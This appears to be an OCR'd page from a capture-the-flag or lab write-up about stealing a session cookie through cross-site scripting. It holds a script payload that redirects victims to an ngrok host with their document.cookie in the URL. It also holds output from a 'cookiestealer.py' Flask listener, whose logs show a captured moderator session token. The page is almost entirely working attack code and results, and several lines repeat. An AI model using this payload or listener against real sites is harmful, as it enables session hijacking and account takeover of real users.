

![](./images/cfe451d8bb1cc57001dc0e889b550c96.png)


\<script\>document\.location='[https://3e1b-216-93-199-231.ngrok.io/?c='+document.cookie;</script>](#https://3e1b-216-93-199-231.ngrok.io/?c='+document.cookie;</script>)


└──╼ #python3 cookiestealer\.py 


Use this URL:

\<script\>document\.location='[https://3e1b-216-93-199-231.ngrok.io/?c='+document.cookie;</script>](#https://3e1b-216-93-199-231.ngrok.io/?c='+document.cookie;</script>)



\* Serving Flask app "cookiestealer" \(lazy loading\)
\* Environment: production
WARNING: This is a development server\. Do not use it in a production deployment\.
Use a production WSGI server instead\.
\* Debug mode: off
\* Running on [http://0.0.0.0:12344/](#http://0.0.0.0:12344/)
\(Press CTRL\+C to quit\)


127\.0\.0\.1 \- \- \[16/May/2022 19:19:11\] "GET /?c=session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9\.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI3NTM5Nzl9\.2HqQgayDFZKcFbFdF9jsqf5ZYEU4IHRjuRiIdYZkLYg HTTP/1\.1" 404 \-


Cookies: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9\.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI3NTM5Nzl9\.2HqQgayDFZKcFbFdF9jsqf5ZYEU4IHRjuRiIdYZkLYg


\<script\>document\.location='[https://3e1b-216-93-199-231.ngrok.io/?c='+document.cookie;</script>](#https://3e1b-216-93-199-231.ngrok.io/?c='+document.cookie;</script>)



127\.0\.0\.1 \- \- \[16/May/2022 19:19:11\] "GET /?c=session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9\.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI3NTM5Nzl9\.2HqQgayDFZKcFbFdF9jsqf5ZYEU4IHRjuRiIdYZkLYg HTTP/1\.1" 404 \-

